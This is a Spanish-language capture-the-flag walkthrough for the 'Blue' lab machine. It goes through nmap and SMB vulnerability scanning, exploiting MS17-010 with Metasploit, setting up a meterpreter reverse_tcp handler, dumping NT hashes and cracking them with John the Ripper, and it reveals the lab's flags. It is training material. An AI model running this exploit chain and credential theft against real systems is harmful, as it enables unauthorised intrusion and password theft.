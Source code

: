 # BLUE
## Escaneo de puertos

```bash
nmap -sV -O ip
```

-sV: Nos da la la versión de los servicios
-O: Te dice el sistema operativo

![image](1.png)

Para conseguir a que es vulnerable ejecutamos el comando

```bash
nmap --script smb-vuln* ip
```

--script: lo que hace es buscar todos los script que pueden afectar

![image](2.png)

## Entramos en Metasploit 

Hacemos `msfconsole` para entrar en Metasploit y buscamos la vulnerabilidad `MS17-010` 

![image](3.png)

Ajustamos los parametros de RHOSTS y LHOST para poder utilizarlo correctamente

![image](4.png)

Hacemos run y entramos en el ordenador

![image](5.png)

Convertimos la shell en un meterpreter con los siguientes comandos

```bash
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp 
set payload for your target set LHOST ip_del_tunel
```



## Cracking

Para ello ponemos `hashdump` y nos devuelve los usuarios con las contraseñas hasheadas

![image](6.png)

Para ver la contraseña en plano ponemos el siguiente comando con `John the Ripper`

```bash
john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt contraseña
```

![image](7.png)

## Encontrar flags

Hacemos `cd C:\\` , después hacemos `ls` y vemos que hay un archivo que se llama `flag1.txt` y entramos en el archivo haciento `cat flag1.txt` y obtenemos la primera flag `flag{access_the_machine}`

![image](8.png)

Esto es lo que contiene flag1.txt

![image](9.png)

Para la segunda flag nos vamos a `C:\\Windows\System32\config` y hacemos `ls` para ver la flag2


![image](10.png)

Esto es lo que contiene flag2.txt

![image](11.png)

Para la ultima flag vamos a `C:\\User\Jon\Documents` y hacemos `ls` y encontramos un archivo que se llama flag3.txt

![image](12.png)

Esto es lo que contiene flag3.txt

![image](13.png)


